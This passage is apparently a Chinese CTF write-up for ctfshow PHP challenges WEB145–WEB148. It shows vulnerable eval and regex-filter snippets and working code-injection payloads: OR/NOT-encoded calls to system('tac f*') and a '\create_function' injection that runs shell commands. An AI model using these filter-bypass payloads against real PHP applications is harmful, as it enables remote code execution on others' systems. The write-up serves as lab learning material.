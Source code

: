 ```
```

这次异或`^`又被过滤了，可以用或`|`和取反`~`。

payload：

```
?v1=1&v3=|('%13%19%13%14%05%0d'|'%60%60%60%60%60%60')('%14%01%03%20%06%02'|'%60%60%60%20%60%28')|&v2=1
```

## WEB146

同145

## WEB147

```
if(isset($_POST['ctf'])){
    $ctfshow = $_POST['ctf'];
    if(!preg_match('/^[a-z0-9_]*$/isD',$ctfshow)) {
        $ctfshow('',$_GET['show']);
    }

}
```

通过hint发现可以利用create_function() 

关于这个函数：

```
<?php
$newfunc = create_function('$a,$b', 'return "ln($a) + ln($b) = " . log($a * $b);');
echo "New anonymous function: $newfunc\n";
echo $newfunc(2, M_E) . "\n";
?>
create_function() 会创造一个匿名函数 (lambda样式)  此处创建了一个叫  lamvda_1 的函数， 在第一个 echo 中 显示名字， 并在第二个echo 语句中执行了 此函数。
create_function() 函数 会在内部 执行 eval()  , 我们发现是执行了 后面的 return 语句，属于create_function()  中的第二个参数 string $code  的位置
```

个人理解是create_function() 会去执行它的第二个参数达到恶意代码执行

```
payload：
get:?show=}?><?=`tac f*`;//
post:ctf=\create_function
```



## WEB148

```
if(isset($_GET['code'])){
    $code=$_GET['code'];
    if(preg_match("/[A-Za-z0-9_\%\\|\~\'\,\.\:\@\&\*\+\- ]+/",$code)){
        die("error");
    }
    @eval($code);
}
else{
    highlight_file(__FILE__);
}

function get_ctfshow_fl0g(){
    echo file_get_contents("flag.php");
```